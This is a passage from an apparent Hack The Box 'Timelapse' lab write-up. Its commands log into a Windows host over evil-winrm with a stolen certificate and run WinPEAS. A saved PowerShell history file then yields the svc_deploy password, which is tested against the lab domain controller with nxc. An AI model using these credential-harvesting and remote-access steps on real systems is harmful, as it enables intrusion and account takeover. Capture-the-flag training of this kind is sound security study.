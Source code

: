 Login using the certificate

```bash
evil-winrm -i $IP -S  -c key.cert -k key.pem
```

Run `Winpeas`

```bash
.\winpeas.exe
```

Got a Powershell ConsoleHost_history file

![image.png](/assets/Images//HTB_Timelapse/image%204.png)

It contain password of `svc_deploy` user 

```bash
***Evil-WinRM*** **PS** C:\Users\legacyy> **type "C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"**
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString '**E3R$Q62^12p7PLlC%KWaxuaV**' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('**svc_deploy**', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit

```

Credentials

```bash
**svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV**
```

Its Vaild

```bash
┌──(root㉿pain)-[/htb/timelapse/winrm_backup]
└─# nxc smb dc01.timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' 
SMB         10.129.185.51   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.129.185.51   445    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
```
